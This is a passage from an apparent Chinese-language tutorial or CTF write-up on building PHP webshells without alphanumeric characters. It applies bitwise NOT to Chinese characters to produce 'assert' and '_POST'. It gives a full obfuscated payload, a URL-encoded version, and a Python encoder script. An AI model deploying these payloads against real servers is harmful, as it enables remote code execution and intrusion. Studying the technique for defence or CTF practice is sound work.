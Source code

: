 构造：

```
$__=('>'>'<')+('>'>'<');$_=$__/$__;$____='';$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});$_=$$_____;$____($_[$__]);
```

由于Payload中含有一些特殊字符，所以需要对Payload进行一次URL编码才可以正常使用,`$__=('%3e'%3e'%3c')%2b('%3e'%3e'%3c')%3b%24_%3d%24__%2f%24__%3b%24____%3d''%3b%24___%3d%22%e7%9e%b0%22%3b%24____.%3d~(%24___%7b%24_%7d)%3b%24___%3d%22%e5%92%8c%22%3b%24____.%3d~(%24___%7b%24__%7d)%3b%24___%3d%22%e5%92%8c%22%3b%24____.%3d~(%24___%7b%24__%7d)%3b%24___%3d%22%e7%9a%84%22%3b%24____.%3d~(%24___%7b%24_%7d)%3b%24___%3d%22%e5%8d%8a%22%3b%24____.%3d~(%24___%7b%24_%7d)%3b%24___%3d%22%e5%a7%8b%22%3b%24____.%3d~(%24___%7b%24__%7d)%3b%24_____%3d'_'%3b%24___%3d%22%e4%bf%af%22%3b%24_____.%3d~(%24___%7b%24__%7d)%3b%24___%3d%22%e7%9e%b0%22%3b%24_____.%3d~(%24___%7b%24__%7d)%3b%24___%3d%22%e6%ac%a1%22%3b%24_____.%3d~(%24___%7b%24_%7d)%3b%24___%3d%22%e7%ab%99%22%3b%24_____.%3d~(%24___%7b%24_%7d)%3b%24_%3d%24%24_____%3b%24____(%24_%5b%24__%5d)%3b`

![wP8WqA.png](https://s1.ax1x.com/2020/09/03/wP8WqA.png)

这个答案还利用了PHP的弱类型特性。因为要获取`'和'{2}`，就必须有数字`2`。而PHP由于弱类型这个特性，true的值为1，故`true+true==2`，也就是`('>'>'<')+('>'>'<')==2`。


这种方法是通过和汉字结合来获取webshell，但要注意在PHP7下因为语法所以是不可以直接使用。

```
$___="瞰";
$a = ~($___{2});

```

除此之外还可以使用另外一种方法进行构造，在上面已经知道了，这两个写法性质一样，得到的结果相同。

```
<?php
$_="和";
print(~($_{2}));
print(~"\x8c");
?>
#结果为
ss

```

所以可以直接写成~"\x8c"这种形式，能够缩减不少字符，脚本如下：

```
#脚本参考V0n师傅的
def get(shell):
    hexbit=''.join(map(lambda x: hex(~(-(256-ord(x)))),shell))
    hexbit = hexbit.replace('0x','%')
    print(hexbit)
get('assert')
get('_POST')
#%9e%8c%8c%9a%8d%8b assert
#%a0%af%b0%ac%ab _POST
```
